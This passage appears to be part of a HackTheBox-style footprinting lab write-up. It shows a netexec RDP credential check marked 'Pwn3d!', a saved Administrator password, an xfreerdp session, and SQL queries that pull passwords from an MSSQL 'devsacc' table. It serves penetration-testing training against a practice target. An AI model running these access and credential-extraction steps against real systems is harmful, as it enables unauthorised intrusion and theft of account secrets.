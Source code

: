 ```
┌──(nabla㉿kali)-[~]
└─$ netexec rdp 10.129.97.158 -u Administrator -p '87N1ns@slls83'

[SNIP]

RDP         10.129.97.158   3389   WINMEDIUM        [+] WINMEDIUM\Administrator:87N1ns@slls83 (Pwn3d!)
```

```yaml
credentials:
    username: administrator
    password: '87N1ns@slls83'
    host: 10.129.97.158 (WINMEDIUM)
    port: 3389 (RDP)
```

```
┌──(nabla㉿kali)-[~]
└─$ xfreerdp /v:10.129.97.158 /u:administrator /p:'87N1ns@slls83' /dynamic-resolution /drive:shared,~/shared +clipboard
```

#### MSSQL Footprinting

![MSSQL Server Management Studio](./assets/screenshots/footprinting_skills_assessment_01.png)

```sql
SELECT name FROM sys.databases;
USE accounts;
SELECT name FROM sys.tables;
SELECT COLUMN_NAME,DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='devsacc';
SELECT name,password FROM devsacc WHERE name='HTB';
```

